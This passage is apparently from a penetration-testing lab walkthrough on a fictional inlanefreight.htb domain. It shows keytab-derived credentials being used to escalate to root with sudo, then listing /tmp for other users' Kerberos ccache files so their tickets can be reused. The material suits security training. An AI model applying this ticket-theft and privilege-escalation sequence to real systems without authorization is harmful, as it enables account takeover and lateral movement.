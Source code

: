 ### Obtaining more hashes
Carlos has a cronjob that uses a KeyTab file named `svc_workstations.kt`. We can repeat the process, crack the password, and log in as `svc_workstations`.

## Abusing KeyTab ccache
To abuse a ccache file, all we need is read privileges on the file. These files, located in `/tmp`, can only be read by the user who created them, but if we gain root access, we could use them.

Once we log in with the credentials for the user `svc_workstations`, we can use `sudo -l` and confirm that the user can execute any command as root. We can use the `sudo su` command to change the user to root.

#### Privilege escalation to root
```shell
svc_workstations@inlanefreight.htb@linux01:~$ sudo -l
[sudo] password for svc_workstations@inlanefreight.htb: 
Matching Defaults entries for svc_workstations@inlanefreight.htb on linux01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User svc_workstations@inlanefreight.htb may run the following commands on linux01:
    (ALL) ALL
svc_workstations@inlanefreight.htb@linux01:~$ sudo su
root@linux01:/home/svc_workstations@inlanefreight.htb# whoami
root
```
As root, we need to identify which tickets are present on the machine, to whom they belong, and their expiration time.

#### Looking for ccache files

```shell-session
root@linux01:~# ls -la /tmp

total 76
drwxrwxrwt 13 root                               root                           4096 Oct  7 11:35 .
drwxr-xr-x 20 root                               root                           4096 Oct  6  2021 ..
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_HRJDux
-rw-------  1 julio@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 11:35 krb5cc_647401106_qMKxc6
-rw-------  1 david@inlanefreight.htb            domain users@inlanefreight.htb 1406 Oct  7 10:43 krb5cc_647401107_O0oUWh
-rw-------  1 svc_workstations@inlanefreight.htb domain users@inlanefreight.htb 1535 Oct  7 11:21 krb5cc_647401109_D7gVZF
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 3175 Oct  7 11:35 krb5cc_647402606
-rw-------  1 carlos@inlanefreight.htb           domain users@inlanefreight.htb 1433 Oct  7 11:01 krb5cc_647402606_ZX6KFA
```
There is one user (julio@inlanefreight.htb) to whom we have not yet gained access. We can confirm the groups to which he belongs using `id`.
